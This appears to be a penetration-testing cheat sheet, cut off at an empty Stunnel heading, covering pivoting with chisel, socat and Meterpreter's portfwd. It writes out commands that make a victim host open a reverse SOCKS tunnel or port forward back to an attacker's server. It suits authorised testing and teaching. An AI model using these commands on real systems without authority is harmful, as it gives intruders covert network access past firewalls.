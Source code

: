 
## Chisel

### Chisel Tunneling

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 8080 --reverse
```

Client Side (Victim):
```
chisel-x64.exe client [myip]:8080 R:socks 
```

After that use **proxychains** with port 1080 (default).

Aftes version 1.5.0 chisel uses socks5 proxy.

### Chisel Port Forwarding

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 12312 --reverse
```

Client Side (Victim):

```
chisel client [myip]:12312 R:[port]:127.0.0.1:[port]
```

## Socat 

### Socat Port Forwarding

```
socat TCP-LISTEN:[victim_port],fork,reuseaddr TCP:[redirect_ip]:[exposed_port]
```

## Metasploit

### Meterpreter Local Port Forwarding

```
portfwd add –l [local_port] –p [exposed_port] –r [target_host]
```

More info about portfwd [here](https://www.offensive-security.com/metasploit-unleashed/portfwd/)

## Stunnel
